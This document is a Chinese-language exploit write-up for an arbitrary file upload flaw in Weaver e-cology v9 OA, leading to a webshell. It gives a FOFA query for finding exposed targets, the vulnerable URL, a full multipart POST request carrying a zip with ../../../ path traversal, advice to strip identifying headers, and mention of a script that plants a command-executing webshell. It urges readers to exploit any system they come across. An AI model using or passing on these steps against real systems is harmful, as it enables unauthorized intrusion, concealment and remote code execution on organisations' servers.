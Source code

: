 # 1、漏洞描述



泛微OA weaver.common.Ctrl 存在任意文件上传漏洞，可在前台直接getshell，漏洞危害很大，见到路过不要错过。

使用fofa可搜索泛微OA相关的系统，不过不一定是存在漏洞的系统，需要尝试；

```
app="泛微-协同办公OA"
```

# 2、影响范围

泛微e-cology v9

# 3、漏洞验证

## 3.1、漏洞URL

此漏洞的深度成因暂未做研究，个人理解的是，此处存在上传功能，并且上传压缩包后，会自动解压，而此处文件名包含三层目录结构，则是为了将被压缩文件解压到可访问执行的目录中；

漏洞的URL如下（重点是URI部分）

```
http://x.x.x.x:port/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp
```

若页面返回状态码为200，则可能存在漏洞；

![](images/1.png)

若页面返回状态码404，则不存在漏洞；

## 3.2、漏洞验证/利用

可使用成型的POC脚本批量验证/利用，也可手动单个验证；

### 3.2.1、手动验证

1. 用本地任意一个上传程序，burpsuit对上传文件的过程抓包；
2. 修改URI、HOST、	POST表单中的name名称（改成file1）、POST表单中的Content-Type（改成图中的格式）、burpsuit中的Target，注意最好删除本地上传抓包内容中存在个人IP的head信息，如origin、refer等；

![](images/2.jpg)

1. 按如上步骤修改完成后，发送请求，若页面返回200，然后访问被上传文件的URL，http://x.x.x.x:port/cloudstore/welcome.txt，页面返回文件内容即是存在漏洞。



POST包（==只用作参考，方便复制一些要修改的地方，还需自己本地抓上传包，因压缩包文件传输存在无法识别的内容，无法直接复制==）：

```
POST 
/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp HTTP/1.1
Host: x.x.x.x:8001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------97014110427240678953456189835
Content-Length: 536
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------97014110427240678953456189835
Content-Disposition: form-data; name="file1"; filename="welcome.zip"
Content-Type: application/zip

PK
-----------------------------97014110427240678953456189835
Content-Disposition: form-data; name="submit"

ä¸ä¼ 
-----------------------------97014110427240678953456189835--
```

**注意：**

- 上传的文件必须是个zip压缩文件；

- 被压缩的文件名要有../../../的三层目录结构，比如../../../test.txt，因Windows文件名不能有/，可先压缩文件，然后用7z解压缩软件打开该压缩包，重命名被压缩的文件，添加上三层目录结构的命名；

- 不少站是能上传上去，但是访问存在的文件时，会跳转到登陆页面，也就是说只能传，但不能利用；
![](images/3.png)
  

### 3.2.2、脚本EXP验证/利用

poc与exp结合，建议先poc验证，结合框架，poc可批量，同时打印poc的url，方便验证；

exp上传的是个能执行命令的webshell，打印webshell地址，可直接执行命令。

![](images/4.png)